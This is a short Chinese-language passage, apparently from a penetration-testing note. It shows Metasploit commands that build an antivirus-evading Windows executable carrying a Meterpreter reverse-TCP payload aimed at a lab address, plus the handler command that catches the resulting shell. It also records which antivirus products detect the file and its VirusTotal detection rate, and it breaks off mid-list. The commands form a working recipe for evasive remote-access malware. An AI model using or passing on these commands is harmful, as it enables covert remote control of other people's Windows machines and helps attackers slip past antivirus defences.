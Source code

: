 msf6 evasion模块：

![image-20220527084747663](./images/202205270847820.png)

### 生成exe(VT查杀率43/69)

使用`use windows/windows_defender_exe`进行生成payload

```
msf6 > use windows/windows_defender_exe
msf6 evasion(windows/windows_defender_exe) > set filename payload.exe
msf6 evasion(windows/windows_defender_exe) > set payload windows/meterpreter/reverse_tcp
msf6 evasion(windows/windows_defender_exe) > set LHOST 192.168.174.128
msf6 evasion(windows/windows_defender_exe) > set LPORT 6666
msf6 evasion(windows/windows_defender_exe) > run
```

![image-20220527085549361](./images/202205270855472.png)

不打开杀软的情况下，可正常上线：

```
handler -H 192.168.174.128 -P 6666 -p windows/meterpreter/reverse_tcp
```

打开杀软，360和火绒都能查杀。

在virustotal.com上查杀率为43/69（原po为42/71）。

360：
